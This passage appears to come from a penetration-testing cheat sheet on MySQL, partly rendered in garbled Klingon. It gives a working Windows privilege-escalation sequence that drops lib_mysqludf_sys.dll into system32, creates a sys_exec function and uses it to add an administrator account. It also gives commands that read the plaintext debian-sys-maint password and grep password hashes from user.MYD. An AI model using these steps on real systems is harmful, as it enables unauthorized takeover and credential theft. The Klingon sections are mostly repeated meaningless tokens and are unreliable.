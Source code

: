 #### Windows

#### Windows

#### Windows

#### Windows

#### Windows

#### Windows
```sql
# CHech the linux comments for more indications
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
### Extracting MySQL credentials from files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

### tlhIngan Hol Translation:

_/etc/mysql/debian.cnf_ vItlhutlhlaHchugh, **debian-sys-maint** lo'wI' 'e' **plain-text password** vItlhutlhlaH.
```bash
cat /etc/mysql/debian.cnf
```
**tlhIngan Hol:**

**_mysql_** **database** **login** **ghaH** **credentials** **'e'** **'e'** **'e'**.

_/var/lib/mysql/mysql/user.MYD_ **file** **'e'** **'e'** **'e'** **MySQL users** **hashes** **'e'** **'e'** **'e'** **(mysql.user** **database** **'e'** **'e'** **'e'** **extract** **'e'** **'e'** **'e'**).

**'e'** **'e'** **'e'** **extract** **'e'** **'e'** **'e'** **'e'**.
```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
### log DIvI'

`/etc/mysql/my.cnf` Daq log mysql queries enable log. 

![](<../.gitbook/assets/image (277).png>)
